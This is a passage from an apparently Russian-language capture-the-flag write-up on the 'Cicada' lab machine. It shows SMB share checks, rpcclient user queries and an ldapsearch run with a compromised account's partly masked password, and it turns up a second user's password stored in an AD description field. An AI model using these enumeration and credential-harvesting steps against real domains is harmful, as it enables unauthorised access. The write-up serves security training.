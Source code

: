 ```
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```

К сожалению, мы не имеем достаточно прав, чтоб как-то взаимодействовать с этими шарами
```
Hexada@hexada ~/Downloads$ smbclient //cicada.htb/IPC$ -U michael.wrightson 
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*
```
```
Hexada@hexada ~/Downloads$ smbclient //cicada.htb/NETLOGON -U michael.wrightson                                                                                                            
do_connect: Connection to CICADA-DC.cicada.htb failed (Error NT_STATUS_UNSUCCESSFUL)
```
```
Hexada@hexada ~/Downloads$ smbclient //cicada.htb/SYSVOL  -U michael.wrightson
do_connect: Connection to CICADA-DC.cicada.htb failed (Error NT_STATUS_UNSUCCESSFUL)
```

Но мы можем работать через эту учетную запись не только в **SMB**, давайте попробуем войти через неё в **RPC** и **LDAP**

**RPC**
```
Hexada@hexada ~/app/pentesting-tools/NetExec/nxc$ rpcclient -U michael.wrightson cicada.htb
Can't load /etc/samba/smb.conf - run testparm to debug it
Password for [WORKGROUP\michael.wrightson]:
rpcclient $>
```

Полазив там, посмотрев права и привилегии, посмотрев информацию о пользователях, и изучив группы, я из всего перечисленого, увидел только одну очень интересуную вещь в `Description` пользователя `david.orelious`
```
rpcclient $> queryuser 0x454
        User Name   :   david.orelious
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Just in case I forget my password is aRt$L*****
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 08 Jan 2025 19:17:06 EET
        Logoff Time              :      Thu, 01 Jan 1970 03:00:00 MSK

        ...
```

Кстати, мы можем тоже самое увидеть в `Description`, в **LDAP**

```
Hexada@hexada ~/app/pentesting-tools/NetExec/nxc$ ldapsearch -H ldap://cicada.htb -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*****' -b 'dc=cicada,dc=htb'
```
```
# David Orelious, Users, cicada.htb
dn: CN=David Orelious,CN=Users,DC=cicada,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: David Orelious
sn: Orelious
description: Just in case I forget my password is aRt$L*****
```